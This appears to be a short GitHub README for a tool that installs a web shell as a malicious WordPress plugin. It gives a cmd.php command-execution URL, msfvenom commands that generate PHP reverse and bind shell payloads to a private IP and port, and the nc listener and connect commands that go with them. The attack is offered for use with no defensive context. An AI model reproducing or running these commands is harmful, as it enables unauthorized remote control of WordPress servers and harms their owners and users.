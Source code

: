 # wordpress-reverse-bind-shell

Update the current php files (and ip address ¬¬), and then create a zip file with whole folder. Install as plugin in wordpress, and have fun...

## 1st option
http://172.16.1.8/wordpress/wp-content/plugins/wordpress-reverse-bind-shell/cmd.php?cmd=whoami

## 2nd option
msfvenom -p php/reverse_php -f raw  LHOST=172.16.1.1 LPORT=4444 -o reverse.php

nc -lvnp 4444

## 3rd option
msfvenom -p php/bind_php -f raw LPORT=4444 -o bind.php

nc 172.16.1.8 4444



## ToDo
More details...

